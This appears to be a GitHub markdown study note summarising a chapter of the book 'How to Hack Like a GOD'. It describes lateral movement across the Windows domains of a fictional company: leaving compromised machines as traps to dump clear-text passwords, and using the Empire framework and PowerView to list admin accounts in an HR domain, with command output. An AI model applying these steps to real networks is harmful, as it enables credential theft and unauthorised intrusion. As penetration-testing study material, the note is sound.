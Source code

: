 # Domain and Database Exploitation

*Note: this section continues from the previous cookbook on Mainframe Exploitation via FTP Bouncing and follows demonstrations from the book "How to Hack Like a GOD: Master the Secrets of Hacking Through Real Life Scenarios" (continuing from page no. 106)*

Here is a short summarization of steps covered by the book:

In the last chapter, we took advantage of a backup account listed on both domains GBSALES and GBSHOP. This is a trick we can perform again on a number of other domains: GBRD, GBCORP, etc. However, it seems GBHR, the HR domain, does not have such an account. Fortunate blunder by an admin, or genuine hardening measure? Who can tell... in any case, we will pursue a different approach for this domain: hunting sysadmins.

We have total control over a few machines in different domains already. Therefore, we can dump clear text passwords of recently connected users on almost all of these machines, turning them into real booby traps should someone connect to any of them.

Here's the output showing all active agents on Empire:

```
Empire: salesFTP) > agents
[*] Active agents:
 Name      Internal IP   Machine Name  Username
 wkAgent   192.168.1.25  WK0025        *WL0025_wk_admin
 DvAgent   192.168.1.2   WK0025        GBSHOP\user
 Dcshop    10.10.20.199  SV0199        *GBSHOP\rachel_adm
 salesFTP  10.30.30.210  SL0210        *GBSALES\sysback
```

It is only a matter of time before a GBHR user, scheduled task, or service account connects to one of these booby traps, leaving their credentials behind in memory! Using our agent on the GBSALES domain, we start by listing domain admins in GBHR:

```
(Empire: salesFTP) > usemodule situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBHR.CORP
(Empire: get_user) > execute
Job started: Debug32_qa90a
distinguishedname : CN=Administrator,CN=Users,DC=GBHR,DC=CORP
name              : Administrator
objectsid         : S-1-5-21-1930387874-2808181134-500
admincount        : 1

distinguishedname : CN=svc_ps,CN=Users,DC=GBHR,DC=CORP
name              : svc_ps
objectsid         : S-1-5-21-1930387874-2808181134-2001
admincount        : 1

distinguishedname : CN=erica_a,CN=Users,DC=GBHR,DC=CORP
name              : erica_a
objectsid         : S-1-5-21-1930387874-2808181134-2030
admincount        : 1
```
